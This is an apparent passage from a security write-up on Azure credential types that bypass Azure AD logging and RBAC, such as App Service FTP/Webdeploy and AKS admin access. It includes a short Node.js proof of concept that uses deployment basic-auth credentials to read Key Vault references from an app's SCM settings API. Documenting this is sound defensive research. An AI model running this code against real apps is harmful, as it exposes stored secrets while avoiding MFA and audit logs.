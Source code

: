 [App Service Webdeploy (FTP)](https://docs.microsoft.com/en-us/azure/app-service/deploy-configure-credentials?tabs=cli#ftp) |❌ Bypasses Azure RBAC [note ¹](#fetching-non-azure-ad-based-credentials-with-initial-azure-ad-authentication) | ❌ No AAD Log  |✅|  Requires Rotation  | ❌Password based  |✅ 
[AKS management with ``--admin`` option](https://docs.microsoft.com/en-us/azure/aks/managed-aad#disable-local-accounts) | 📑 Initial sign-in is Azure RBAC when Azure RBAC is used | 📑 No AAD log after initial sign-in|✅ |Requires rotation [Rotate certificates in Azure Kubernetes Service (AKS)](https://docs.microsoft.com/en-us/azure/aks/certificate-rotation#aks-certificates-certificate-authorities-and-service-accounts) | ✅ Strong (Certificate based) |📑 Unlikely to be shared, as the AKS creates it's own CA


### Notes 

#### Fetching non-Azure AD based credentials with initial Azure AD authentication
To retrieve most of the credentials in the table you typically have to initially authenticate first with Azure AD. The table regurgitates the same scenario for many other credential types (Initially requires Azure AD but once obtained bypasses the access domain of Azure AD) - Scenarios like this means, that once the credential is fetched, it's issuance and usage are not tracked with Azure AD

#### App Service Deployment Credentials
To facilitate many of the deployment scenarios Azure App Service uses under the hood something called [Deployment Credentials](https://docs.microsoft.com/en-us/azure/app-service/deploy-configure-credentials?tabs=cli)

Essentially these credentials are used for two scenarios Basic auth string in authorization header ``Authorization: 'Basic YWRtaW5pc3RyYXRvcjpwYXNzd29yZA==``  for the SCM web api, and same deployment credentials FTP based, but passed in FTP protocol

##### Bypassing Azure AD with indirect access to Azure Key Vault References

⚠ Note: This bypass is based on **indirect access**. Azure Key Vault itself is not suspectible to non-azure-ad based access, and neither do the secrets exist outside runtime platform anywhere 

1. Attacker uses Basic Auth (publishingUserName and publishingPassword) to access directly key vault references that are loaded for runtime in the SCM API

**POC - Node.js**
```Javascript
async function mfaBypassToGetKeyVaultReferences(publishingUserName, publishingPassword, name) {
    var base64 = Buffer.from(`${publishingUserName}:${publishingPassword}`).toString('base64')
    var {data} = await axios({
        url:`https://${name}.scm.azurewebsites.net/api/settings`,
        headers: {
            "Authorization": "Basic " + base64},
            method:"get",
    }).catch((error) => console.log('sd')); console.log(data)
}
```
   
  **✅Credentials as Azure Key Vault Reference / Backed by Azure AD**
 ![img](img/depcred2.png)
